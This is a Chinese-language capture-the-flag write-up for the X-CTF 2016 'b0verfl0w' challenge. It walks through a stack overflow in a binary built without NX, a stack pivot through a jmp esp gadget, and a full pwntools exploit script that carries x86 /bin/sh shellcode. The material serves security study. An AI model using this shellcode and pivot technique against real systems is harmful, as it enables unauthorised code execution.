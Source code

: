 ```yaml
---
title: X-CTF Quals 2016 - b0verfl0w
date: 2018-09-30 10:49:33
tags: [stack pivoting]
categories: [stack]
---
```

## 查看程序的安全保护，程序未开启NX
```
CANARY    : disabled
FORTIFY   : disabled
NX        : disabled
PIE       : disabled
RELRO     : Partial
```

## 反汇编程序，源程序存在栈溢出漏洞
```C
signed int vul()
{
  char s; // [esp+18h] [ebp-20h]

  puts("\n======================");
  puts("\nWelcome to X-CTF 2016!");
  puts("\n======================");
  puts("What's your name?");
  fflush(stdout);
  fgets(&s, 50, stdin);
  printf("Hello %s.", &s);
  fflush(stdout);
  return 1;
}
```

## 分析汇编代码,fgets函数可以溢出0x28个字节的数据
我的理解是看`call    _fgets`这个call上面的参数，`lea     eax, [ebp+s]`ebp加上写入地址s的偏移后将该地址传给eax，值为[ebp-0x20]，`mov     [esp], eax`这句代码将上述的地址，传递给esp，现在栈指针指向的是s的具体地址，这个地址到ebp的距离为0x20各字节，所以最多可以溢出0x28个字节的数据

```
.text:0804851B vul             proc near               ; CODE XREF: main+6↑p
.text:0804851B
.text:0804851B s               = byte ptr -20h
.text:0804851B
.text:0804851B ; __unwind {
.text:0804851B                 push    ebp
.text:0804851C                 mov     ebp, esp
.text:0804851E                 sub     esp, 38h
.text:08048521                 mov     dword ptr [esp], offset s ; "\n======================"
.text:08048528                 call    _puts
.text:0804852D                 mov     dword ptr [esp], offset aWelcomeToXCtf2 ; "\nWelcome to X-CTF 2016!"
.text:08048534                 call    _puts
.text:08048539                 mov     dword ptr [esp], offset s ; "\n======================"
.text:08048540                 call    _puts
.text:08048545                 mov     dword ptr [esp], offset aWhatSYourName ; "What's your name?"
.text:0804854C                 call    _puts
.text:08048551                 mov     eax, ds:stdout@@GLIBC_2_0
.text:08048556                 mov     [esp], eax      ; stream
.text:08048559                 call    _fflush
.text:0804855E                 mov     eax, ds:stdin@@GLIBC_2_0
.text:08048563                 mov     [esp+8], eax    ; stream
.text:08048567                 mov     dword ptr [esp+4], 32h ; n
.text:0804856F                 lea     eax, [ebp+s]
.text:08048572                 mov     [esp], eax      ; s
.text:08048575                 call    _fgets
.text:0804857A                 lea     eax, [ebp+s]
.text:0804857D                 mov     [esp+4], eax
.text:08048581                 mov     dword ptr [esp], offset format ; "Hello %s."
.text:08048588                 call    _printf
.text:0804858D                 mov     eax, ds:stdout@@GLIBC_2_0
.text:08048592                 mov     [esp], eax      ; stream
.text:08048595                 call    _fflush
.text:0804859A                 mov     eax, 1
.text:0804859F                 leave
.text:080485A0                 retn
```

## 由于程序未开启NX，所以思路是在栈上布置shellcode，然后控制vul函数返回地址，即控制eip执行栈上的shellcode，栈上的布置如下：
> shellcoed || fake ebp || 0x08048504 || asm(sub esp,0x28;jmp esp)

0x08048504为jmp esp 的gadgets，覆盖了返回地址，当程序执行到ret时，将该地址pop给eip，并且esp会加4指向`asm(sub esp,0x28;jmp esp)`,然后eip执行地址0x08048504上的代码`jmp esp`，eip又会执行esp指向的`sub esp,0x28;jmp esp`，完成esp的劫持。正常情况下eip指向的是.text段中的代码，所以需要将`sub esp,0x28;jmp esp`转化为机器码，这里是十六进制机器码

## 通过ROPgadget，找到jmp esp gadgets的地址为0x08048504
```
$ ROPgadget --binary b0verfl0w --only 'jmp|ret'
Gadgets information
============================================================
0x08048504 : jmp esp
0x0804836a : ret
0x0804847e : ret 0xeac1

Unique gadgets found: 3
```
## EXP
```python
#!/usr/bin/env python
from pwn import *
p = process('./b0verfl0w')
jmp_esp = 0x08048504
shellcode_x86 = "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73"
shellcode_x86 += "\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0"
shellcode_x86 += "\x0b\xcd\x80"

sub_jmp_esp = asm('sub esp, 0x28;jmp esp')
payload = shellcode_x86+'a'*(0x20-len(shellcode_x86))
payload += p32(0xdeadbeef)
payload += p32(jmp_esp)
payload += sub_jmp_esp

p.sendlineafter("What's your name?",payload)
p.interactive()
```
